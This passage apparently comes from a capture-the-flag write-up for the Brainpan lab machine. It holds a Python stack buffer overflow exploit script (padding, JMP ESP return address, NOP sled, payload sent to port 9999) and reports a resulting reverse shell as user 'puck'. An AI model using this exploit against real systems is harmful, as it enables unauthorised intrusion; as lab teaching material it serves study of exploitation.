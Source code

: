 ```python
#
#   [524 "A" bytes] + [4-byte JMP ESP address] + [NOP sled] + [payload]
#
padding  = b"A" * 524

# This 4-byte JMP ESP (little-endian) from mona. Change if yours differs.
eip      = b"\xF3\x12\x17\x31"   # JMP ESP → 0x311712f3

# NOP sled to give the shellcode some landing space
nop_sled = b"\x90" * 32

buffer = padding + eip + nop_sled + payload

# ─── 3. SET UP TARGET CONNECTION ───────────────────────────────────────────────
host = "10.10.87.171"   # ← change to your Brainpan IP if different
port = 9999

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((host, port))
except Exception as e:
    print(f"[-] Could not connect to {host}:{port} -> {e}")
    sys.exit(1)

# Optional: read any initial banner or prompt
try:
    banner = s.recv(1024)
    print(banner.decode(errors="ignore"))
except:
    pass

# ─── 4. SEND THE EXPLOIT (PASSWORD) ─────────────────────────────────────────────
#
# Brainpan expects a “password” line, so append "\r\n" so it’s treated as input.
s.send(buffer + b"\r\n")
print("[+] Exploit buffer sent! The reverse shell should connect back on its own.")

# Give the payload a moment to spawn the shell, then close the socket.
sleep(1)
s.close()
```

Ok, we got the exploit, let's send it and check our listener then:

![](../images/Pasted%20image%2020250531145124.png)

As seen, we get a reverse shell as `puck`, let's proceed with privilege escalation.


# PRIVILEGE ESCALATION
---
